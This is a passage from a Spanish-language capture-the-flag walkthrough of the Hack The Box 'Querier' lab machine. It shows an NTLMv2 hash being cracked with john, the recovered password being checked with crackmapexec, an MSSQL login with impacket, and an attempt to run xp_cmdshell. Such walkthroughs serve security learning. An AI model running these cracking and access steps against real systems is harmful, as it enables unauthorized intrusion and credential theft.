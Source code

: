 ```bash
[*] AUTHENTICATE_MESSAGE (\,QUERIER)
[*] User QUERIER\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Disconnecting Share(1:IPC$)
[*] Closing down connection (10.129.67.247,49675)
[*] Remaining connections []
```

- Ahora vamos a crackear el hash para ver la contraseña en texto plano.

```bash
➜  content john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
corporate568     (mssql-svc)
1g 0:00:00:42 DONE (2024-04-05 13:48) 0.02369g/s 212247p/s 212247c/s 212247C/s correforenz..corococo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

- Vamos a validar que la contraseña es valida.

```bash
➜  content crackmapexec smb 10.129.67.247 -u 'mssql-svc' -p 'corporate568' --local-auth
SMB         10.129.67.247   445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:QUERIER) (signing:False) (SMBv1:False)
SMB         10.129.67.247   445    QUERIER          [+] QUERIER\mssql-svc:corporate568
```

- Como el usuario se llama `mssql-svc` nos podemos conectar a `mssql` también.

```bash
➜  content impacket-mssqlclient WORKGROUP/mssql-svc@10.129.67.247 -windows-auth
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'master'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL (QUERIER\mssql-svc  dbo@master)>
```

- Ahora simplemente tenemos que habilitarlo para poder usar el `xp_cmdshell`.

```bash
SQL (QUERIER\mssql-svc  dbo@master)> xp_cmdshell "whoami"
[-] ERROR(QUERIER): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```
